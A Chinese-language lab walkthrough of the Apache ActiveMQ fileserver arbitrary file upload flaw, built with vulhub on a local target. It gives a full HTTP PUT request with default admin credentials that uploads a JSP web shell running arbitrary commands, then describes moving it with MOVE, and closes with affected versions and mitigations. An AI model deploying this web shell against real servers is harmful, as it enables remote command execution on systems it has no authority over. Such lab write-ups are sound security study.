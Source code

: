 #### ActiveMQ任意文件上传漏洞

该漏洞出现在fileserver应用中,ActiveMQ中的fileserver服务允许用户通过HTTP  PUT方法上传文件到指定目录。Fileserver支持写入文件(不解析jsp),但是支持移动文件(Move)我们可以将jsp的文件PUT到Fileserver下,然后再通过Move指令移动到可执行目录下访问

使用vulhub一键搭建，靶机kali：192.168.1771.37



```
docker-compose up -d
```

环境搭建成功，浏览器访问：http://IP:8161

![1](ActiveMQ任意文件上传漏洞\1.png)

![2](ActiveMQ任意文件上传漏洞\2.png)

登录admin账号：默认账号admin/admin，抓包进行修改，使用PUT方法上传文件。ActiveMQ  Web控制台分为三个应用程序：其中admin，api和fileserver，其中admin是管理员页面，api是界面，fileserver是用于存储文件的界面；admin和api需要先登录才能使用，fileserver不需要登录。

 上传jsp文件（系统不稳定，有时成功有时失败），

![3](ActiveMQ任意文件上传漏洞\3.png)
```
PUT /fileserver/2.jsp HTTP/1.1
Host: 192.168.177.137:8161
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: JSESSIONID=18wws8yzr1a04iz9gfpkkar3p
Authorization: Basic YWRtaW46YWRtaW4=
X-Forwarded-For: 8.8.8.8
Connection: close
Content-Length: 329

<%@ page import="java.io.*"%>
<%
 out.print("Hello</br>");
 String strcmd=request.getParameter("cmd");
 String line=null;
 Process p=Runtime.getRuntime().exec(strcmd);
 BufferedReader br=new BufferedReader(new InputStreamReader(p.getInputStream()));
 while((line=br.readLine())!=null){
 out.print(line+"</br>");
 }
%>

```

 使用MOVE方法移动文件，成功的包没截上，再次上传是500回显，文件已经上传成功，访问地址，成功解析jsp



![4](ActiveMQ任意文件上传漏洞\4.png)

 使用MOVE方法移动文件，成功的包没截上，再次上传是500回显，文件已经上传成功，访问地址，成功解析jsp

![5](ActiveMQ任意文件上传漏洞\5.png)

![6](ActiveMQ任意文件上传漏洞\6.png)

 

漏洞影响版本：Apache ActiveMQ 5.x ~ 5.14.0

1、ActiveMQ Fileserver 的功能在 5.14.0 及其以后的版本中已被移除。建议用户升级至 5.14.0 及其以后版本。

2、通过移除 `conf\jetty.xml` 的以下配置来禁用 ActiveMQ Fileserver 功能



![7](ActiveMQ任意文件上传漏洞\7.png)



